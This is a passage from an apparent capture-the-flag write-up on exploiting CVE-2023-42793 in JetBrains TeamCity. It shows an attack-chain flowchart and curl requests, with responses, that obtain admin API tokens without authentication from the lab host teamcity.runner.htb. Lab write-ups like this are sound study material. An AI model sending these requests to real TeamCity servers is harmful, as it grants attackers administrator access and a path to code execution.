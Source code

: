 In reading about other ways to get code execution, I stumbled upon [this
forum post](https://youtrack.jetbrains.com/issue/TW-85379). It mentions
[this blog
post](https://attackerkb.com/topics/1XEEEkGHzt/cve-2023-42793/rapid7-analysis)
which has details of exploiting CVE-2023-42793 using the API and a debug
endpoint.

    flowchart TD;
        A(Create Token)---->B(Token Returned);
        A-->C(Token Already Exists);
        C-->D(Delete Token);
        D-->A;
        B-->E(Create System\nAdmin User);
        E-->G[Admin GUI Access];
        B-->F(Enable Debug);
        F-->H[RCE];

    linkStyle default stroke-width:2px,stroke:#FFFF99,fill:none;

### Get Token

Getting a token is a simple `curl` command:



    oxdf@hacky$ curl -X POST http://teamcity.runner.htb/app/rest/users/id:1/tokens/RPC2
    <?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="RPC2" creationTime="2024-04-25T18:42:16.881Z" value="eyJ0eXAiOiAiVENWMiJ9.Zlp5ZkFqWkpJR1hRU0VTWnpKczBOR2hsZV9N. YjFiMjllMTYtYzE2NC00ODAwLWI3NDMtMTRiMWU3YTVmMTE5"/>



If someone else already has a token for this user, it will return a 400
error:



    oxdf@hacky$ curl -X POST http://teamcity.runner.htb/app/rest/users/id:1/tokens/RPC2
    Responding with error, status code: 400 (Bad Request).
    Details: jetbrains.buildServer.server.rest.errors.BadRequestException: Token already exists
    Invalid request. Please check the request URL and data are correct.



I can try ID 2, and it works as well:



    oxdf@hacky$ curl -X POST http://teamcity.runner.htb/app/rest/users/id:2/tokens/RPC2
    <?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="RPC2" creationTime="2024-04-25T19:07:16.510Z" value="eyJ0eXAiOiAiVENWMiJ9.ald1LXdyQmlTV2JoVU1yNWt3LUpnT3VNMmNF. YjQyNjA5ZGQtMzU3Ni00Y2RkLWI0NTEtMjhhNDQ0NTEyOTA1"/>



ID 3 doesn't exist, so that doesn't work:



    oxdf@hacky$ curl -X POST http://teamcity.runner.htb/app/rest/users/id:3/tokens/RPC2
    Responding with error, status code: 404 (Not Found).
    Details: jetbrains.buildServer.server.rest.errors.NotFoundException: User not found
    Could not find the entity requested. Check the reference is correct and the user has permissions to access the entity.
